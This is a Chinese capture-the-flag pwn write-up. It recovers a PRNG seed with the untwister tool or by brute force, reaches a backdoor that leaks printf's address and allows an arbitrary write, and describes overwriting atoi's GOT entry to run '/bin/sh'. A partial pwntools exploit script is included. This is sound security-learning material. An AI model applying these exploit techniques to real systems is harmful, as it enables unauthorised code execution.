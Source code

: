 可以看到程序从熵池里读了3字节作为随机数种子,然后用它产生了一些随机数,与用户的输入进行比较,如果数值相同,则会进入一个函数.

这是一道从新生赛拖到现在都没写出来的题,一直在想怎样通过区区4或更少个数字推断出接下来的随机数序列,自己也做过尝试~~并且成功往自己硬盘里塞了3个G的毫无作用的输出~~.本来打算相信后人~~之后的自己~~的智慧了,结果现在才发现得相信前人的智慧...

```shell
git clone https://github.com/altf4/untwister.git
```

总之这是一个通过随机数去搜索种子的工具.
我们把程序提供的随机数喂给这个工具,它就能把种子给搜索出来.并且由于这道题的一些利于我们正常解题的设置,这所花费的时间是相当低的.这就导致这题的知识点被我们规避掉了...

<img src="C:\Users\POI\Desktop\周报\周报05\guibidongzuo.png" alt="guibidongzuo" style="zoom: 50%;" />

~~话说这卡翻译的什么玩意~~

顺便讲讲常规的方式:由于这题的随机数种子在读入的时候就只有2^4^\^3种可能,如果我们把`scanf`的16字节填满,让`scanf`在字符串最后添加的`\n`把种子的最后一位覆盖掉的话,就只剩2^4^\^2种可能了.即使是前一种情况,暴力的时间复杂度也在一个可以接受的范围内了.我们只需要让它输出一个随机数,再自己写一个程序,遍历`"\x00\x00"+"\x10"`到`"\xFF\xFF"+"\x10"`的所有随机数种子,将这个种子输出的第一个随机数和我们已知的那个随机数作比较就行了.

在输入正确的随机数后,程序就会让我们进入后门函数.

```c++
int sub_F41()
{
  int v1; // [rsp+Ch] [rbp-4h] BYREF

  printf("It seems that you are as handsome as the author, so let's give you a gift %p\n", &printf);
  puts("If you're not satisfied with your looks, here's a face modifier");
  puts("Select where to modify");
  __isoc99_scanf("%lld", &v1);
  puts("fraction");
  read(0, &byte_202140[v1], 0x10uLL);
  return atoi(&byte_202140[v1 + 8]); //.bss:0000000000202140 byte_202140  
}
```

利用程序提供的地址,输入偏移修改atoi的got表,并传入`/bin/sh`即可.

最终脚本如下:

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
libc=ELF("libc.so.6")
r=process("./pwn")
#r=remote("contest.ctf.nefu.edu.cn",32815)
#gdb.attach(r)
#pause()
r.sendline(b"1")
r.sendline(b"1")
r.recvuntil(b"Rate yourself\n")
r.sendline(b"1")
r.recvuntil(b"Come on, Sao Nian!! ")
randint=r.recvuntil(b"\n")[:-1]
print(randint)
r_list=[]
for i in range(5): #没想到只需要一个随机数就能搞定了
    num=input()
    r_list.append(num)
print(r_list)
r.recvuntil(b"Rate yourself\n")
r.sendline(str(r_list[1]))
r.recvuntil(b"give you a gift ")
pri_ext=int(r.recvuntil(b"\n")[:-1],16)
print(hex(pri_ext))
```